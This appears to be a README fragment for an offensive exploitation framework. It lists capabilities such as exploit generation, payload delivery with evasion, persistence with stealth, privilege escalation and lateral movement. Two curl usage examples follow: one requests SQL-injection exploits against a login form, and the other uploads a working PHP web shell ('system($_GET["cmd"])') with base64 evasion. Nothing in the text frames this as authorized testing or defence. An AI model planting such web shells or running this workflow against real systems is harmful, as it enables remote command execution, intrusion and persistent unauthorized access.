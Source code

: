 ### **After Phase E Implementation:**
- ✅ **Proof-of-concept exploit generation** with vulnerability-specific templates
- ✅ **Multi-method payload delivery** with evasion techniques
- ✅ **Advanced post-exploitation enumeration** for Linux and Windows systems
- ✅ **Privilege escalation detection** with automated opportunity analysis
- ✅ **Persistence mechanism establishment** with stealth assessment
- ✅ **Lateral movement intelligence** with network target discovery
- ✅ **Impact assessment and risk scoring** with business impact analysis
- ✅ **Execution monitoring and validation** with success indicator tracking
- ✅ **Comprehensive system intelligence** with 50+ enumeration commands
- ✅ **Enterprise-grade exploitation** with complete audit trail

## 🔍 **Usage Examples**

### **1. Complete Exploitation Workflow**
```bash
# Generate and validate exploits for discovered vulnerabilities
curl -X POST "http://localhost:8000/scans/exploitation-framework" \
  -H "Content-Type: application/json" \
  -d '{
    "target": "https://webapp.example.com",
    "vulnerabilities": [
      {
        "vulnerability_type": "sqli",
        "url": "https://webapp.example.com/login",
        "parameter": "username",
        "confidence": 0.9
      }
    ],
    "validate_exploit": true
  }'
```

### **2. Advanced Payload Delivery**
```bash
# Multi-method payload delivery with execution monitoring
curl -X POST "http://localhost:8000/scans/payload-delivery" \
  -H "Content-Type: application/json" \
  -d '{
    "target": "https://upload.example.com",
    "payload_configs": [
      {
        "payload_type": "web_shell",
        "delivery_method": "file_upload",
        "payload": "<?php system($_GET[\"cmd\"]); ?>",
        "file_extension": ".php",
        "evasion_technique": "base64_encode",
        "monitor_execution": true
      }
    ]
  }'
```
